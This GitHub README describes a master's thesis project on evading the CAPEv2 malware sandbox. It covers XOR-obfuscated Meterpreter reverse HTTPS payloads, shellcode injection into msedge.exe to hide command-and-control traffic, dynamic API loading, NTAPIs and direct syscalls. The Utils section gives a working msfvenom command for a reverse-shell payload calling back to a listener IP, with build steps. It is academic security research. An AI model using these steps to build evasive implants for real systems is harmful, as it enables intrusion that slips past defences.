 # Repository Overview

This repository hosts the implementation of Ayoub's Master Thesis, which explores Malware Obfuscation and Evasion Techniques. The primary focus is on developing methods to bypass the CAPEv2 sandbox.

## Author

BOUHNINE Ayoub

## Repository Structure

The repository is organized as follows:

- **Custom Payloads:** Contains various custom payloads.
- **AVET Folder:** Hosts the AVET (AntiVirus Evasion Tool).
- **SysWhispers3 Folder:** Used for generating (or possibly statically embedding different payloads within AVET).

## Research Paper

The accompanying thesis paper is available for download in the [paper folder](./paper/thesis.pdf).

## Evasion Techniques

The samples, available on the directory `samples/` included in this repository use several evasion techniques:

- **Obfuscation:** A stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This technique is implemented in all the samples.
- **Shellcode Injection:** an injection of the Meterpreter payload is performed into **msedge.exe**, this could fool security solutions since Microsoft Edge regularly perform HTTPS request, therefore the Meterpreter traffic will be hidden with the regular Ms Edge traffic. This is implemented in all the samples.
- **Basic API calls:** This is not an evasion tehcniques however, the sample implemeting this will serve as a baseline for other sample. This is implemented in the sample `Shellcode_injection`.
- **Dynamic API Loading:** This is a basic method used to hide the APIs from the Import Address Table. This will resolve the APIs by loading them dynamically. This is implemented in the sample `Shellcode_injection_dynamic_lib`.
- **NTAPIs:** This is a more advances tehcniques where we load the NTAPIs instead of the classical APIs dynamically. This could potentially bypass security solutions that does not hook the `ntdll.dll`. This is implemented in the sample `Shellcode_injection_NTAPIs`.
- **Evasion of API Hooks by Direct Syscalls:** This tehcniqeus is used to bypass the API hooking of classical APIs and NTAPIs by using a Direct Syscalls technique. This is implemented in the sample `Shellcode_injection_syscalls`

These techniques have been integrated by the author within the AVET framework available on this repo. For syscall generation, the tool **SysWhispers3** is used, available at: [SysWhispers3 on GitHub](https://github.com/klezVirus/SysWhispers3).

## Modification of the payload

The payload used is stageless Meterpreter x64 reverse HTTPS payload that employs a basic XOR encryption is used. This has to be replaced if you want to use your payload with the right IP address.

## Utils

For xoring the payload we used the code available on `XOR_encryptor`.

To do so:
- Generate your payload using **msfvenom** : `msfvenom -p windows/x64/meterpreter_reverse_https lhost=192.168.173.130 lport=443 -f c > payload.h`
- Take the file newly generated and give it as input to the executable `XOR_encryptor.exe`, this can be used with the following command : `.\XOR_encryptor.exe payload.h <output_file_name>` for example in our case the output filename is `buffer.h `
- Add the newly generated file into Visual Studio. Then include the file into the sample of your choice.
You should be ready to go !

In a kali machine, ensure you have `wine` installed, then you have to simply execute the command with `wine` as a prefix and you should have your XORed payload generated.
